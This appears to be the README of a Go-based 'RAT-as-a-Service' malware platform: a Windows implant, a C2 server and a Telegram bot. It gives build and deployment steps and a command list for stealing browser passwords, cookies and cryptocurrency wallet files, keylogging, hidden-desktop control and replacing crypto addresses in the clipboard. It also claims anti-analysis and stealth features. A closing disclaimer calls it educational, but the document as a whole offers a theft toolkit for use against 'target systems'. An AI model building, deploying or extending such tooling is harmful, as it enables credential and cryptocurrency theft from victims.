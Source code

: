 # RAT-as-a-Service Platform

A comprehensive Remote Access Toolkit (RAT) platform with advanced credential theft and hot wallet detection capabilities.

## Features

### Core Components
- **C2 Server**: Command and control relay hub
- **Telegram Bot**: Interactive control interface  
- **RAT Agent**: Windows implant with stealth capabilities

### Capabilities
- **System Control**: Shell commands, screenshots, keylogging
- **HVNC**: Hidden desktop sessions with remote control
- **Credential Theft**: Browser passwords, cookies, autofill data
- **Document Scanning**: Extract sensitive data from files
- **Hot Wallet Theft**: Detect and steal cryptocurrency wallet files
- **Clipboard Manipulation**: Monitor and replace crypto addresses

### Supported Hot Wallets
- Exodus, Atomic Wallet, Electrum
- Bitcoin Core, Litecoin Core, Dogecoin Core
- Monero GUI, Ethereum Wallet, MyEtherWallet
- Jaxx Liberty, Coinomi, Trust Wallet
- Phantom, Solflare, Guarda
- And more...

## Architecture

```
Telegram Bot <-> C2 Server <-> RAT Agents
     ^              ^              ^
  Commands      Task Queue    Target Systems
```

## Setup

### Prerequisites
- Go 1.24+
- Windows target systems
- Telegram Bot Token
- VPS for C2 server

### Build Instructions

1. **Configure settings** in `config/config.go`:
   - Update C2_BASE_URL with your server IP
   - Set Telegram bot token

2. **Build C2 Server**:
   ```bash
   cd c2-server
   go build -o c2-server server.go
   ```

3. **Build Telegram Bot**:
   ```bash
   cd telegram-bot
   go build -o telegram-bot bot.go
   ```

4. **Build Agent**:
   ```bash
   cd agent
   go build -ldflags "-s -w -H windowsgui" -o agent.exe agent.go
   ```

### Deployment

1. **Deploy C2 Server**:
   ```bash
   ./c2-server
   ```

2. **Start Telegram Bot**:
   ```bash
   ./telegram-bot <BOT_TOKEN>
   ```

3. **Deploy Agent** on target systems

## Usage

### Telegram Commands

#### Agent Management
- `/agents` - List all connected agents
- `/select <agent_id>` - Select agent for operations
- `/info` - Show selected agent details

#### System Operations
- `/shell <command>` - Execute shell command
- `/screenshot` - Take screenshot
- `/keylog <seconds>` - Start keylogger
- `/terminate` - Terminate agent

#### Credential Theft
- `/stealpasswords` - Extract browser passwords
- `/stealcookies` - Extract browser cookies
- `/stealautofill` - Extract autofill data
- `/stealdocs` - Scan documents for passwords
- `/stealall` - Comprehensive credential theft

#### Hot Wallet Theft
- `/stealwallets` - Detect and steal hot wallet files

#### HVNC (Hidden Desktop)
- `/hvncstart` - Start hidden desktop session
- `/hvncstop` - Stop hidden desktop session
- `/hvncscreen` - Screenshot from hidden desktop
- `/hvncmouse <x> <y> <action>` - Send mouse event
- `/hvnckbd <action> <key/text>` - Send keyboard event

#### Clipboard Manipulation
- `/clipmonitor <seconds>` - Monitor clipboard changes
- `/clipread` - Read current clipboard content
- `/clipwrite <text>` - Write text to clipboard
- `/clipreplace` - Replace crypto addresses

## Security Features

### Anti-Analysis
- Debugger detection
- Sandbox evasion
- Timing checks
- System metrics validation

### Stealth
- Process hiding
- Network encryption
- Jittered beacons
- Error handling

## File Transfer

Large files (hot wallets, credentials) are automatically uploaded to Pixeldrain for efficient transfer and download.

## Configuration

Edit `config/config.go` to customize:
- Server endpoints
- Beacon intervals
- Crypto addresses for replacement
- File paths and patterns

## Legal Notice

This software is for educational and authorized testing purposes only. Users are responsible for compliance with applicable laws and regulations. 